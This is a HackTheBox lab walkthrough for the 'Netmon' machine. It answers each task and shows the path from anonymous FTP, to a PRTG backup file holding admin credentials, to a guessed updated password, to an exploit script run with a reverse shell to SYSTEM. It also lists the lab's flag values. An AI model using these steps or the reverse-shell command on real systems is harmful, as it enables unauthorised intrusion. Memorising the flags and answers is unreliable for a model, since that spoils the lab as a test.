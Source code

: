 
# HackTheBox Walkthrough - Machine: Netmon

**Target IP**: 10.129.197.170  
**Difficulty**: Easy/Medium  
**Objective**: Exploit default credentials and backup config to gain access to the PRTG web application and escalate to SYSTEM privileges.

---

## 🧭 Enumeration & Exploitation

### 🔍 Task 1: What is the name of the application running on port 80?  
**Answer**: `PRTG Network Monitor`  
> Identified via Nmap and website banner  
![nmap](img/nmap.png)

---

### 🔍 Task 2: What service is running on TCP port 21?  
**Answer**: `FTP`  
> Anonymous FTP login allowed  
![ftp](img/ftp.png)

---

## 🧑‍💻 Submit User Flag  
**Flag Path**: `/Users/Public/Desktop/user.txt`  
![usertxt](img/usertxt.png)

**Answer**: `6471d785b2b4095cac5e40105591ce41`

---

### 📁 Task 4: What is the full path of the folder where PRTG Network Monitor saves its configuration files by default?  
![search](img/search.png)

**Answer**: `C:\ProgramData\Paessler\PRTG Network Monitor`  
> From official documentation and online sources

---

### 🗃️ Task 5: What is the name of the backup config file?  
![configurefiel](img/configurefiel.png)

**Answer**: `PRTG Configuration.old.bak`  
> Located inside configuration directory

---

### 🔐 Task 6: What was the prtgadmin user's password according to that file?  
![prtadmin](img/prtadmin.png)

**Answer**: `PrTg@dmin2018`  
> Extracted using:
```bash
grep -A 10 'prt' PRTG\ Configuration.old.bak
```

---

### 🔐 Task 7: What is the prtgadmin user's password on the website now?  
**Answer**: `PrTg@dmin2019`  
> Year incremented → commonly updated default credentials

---

### ℹ️ Task 8: What version of PRTG is installed?  
![update](img/update.png)

**Answer**: `18.1.37.13946`  
> Found after login as prtgadmin → under Update section

---

### 👤 Task 9: Which user is this software running as by default?  
![reverseshell](img/reverseshell.png)

**Answer**: `system`  
> Verified using exploit script with reverse shell and `whoami` command:
```bash
python exploit.py -i 10.129.197.170 -p 80 --lhost 10.10.14.99 --lport 9999 --user prtgadmin --password PrTg@dmin2019
whoami
nt authority\system
```

---

## 👑 Submit Root Flag  
**Flag Path**: `C:\Users\Administrator\Desktop\root.txt`  
![rootflag](img/rootflag.png)

**Answer**: `df57e711fe414afc1356baaf35e33be3`

---
